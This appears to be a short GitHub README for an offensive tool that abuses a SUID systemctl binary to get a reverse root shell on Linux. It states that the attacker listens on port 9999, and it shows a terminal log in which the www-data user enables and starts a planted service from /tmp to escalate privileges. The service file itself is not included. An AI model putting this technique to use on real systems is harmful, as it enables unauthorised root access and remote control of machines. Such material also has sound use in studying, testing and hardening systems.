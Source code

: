 # RootShellService
Linux Service for Getting Root shell from systemctl SUID

Listen on port 9999 of attacker machine for reverse root shell.

www-data@machine:/tmp/melbin$ systemctl enable /tmp/melbin/root.service    
<p/melbin$ systemctl enable /tmp/melbin/root.service                         
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /tmp/melbin/root.service.
Created symlink from /etc/systemd/system/root.service to /tmp/melbin/root.service.
www-data@machine:/tmp/melbin$ systemctl start root
systemctl start root
www-data@machine:

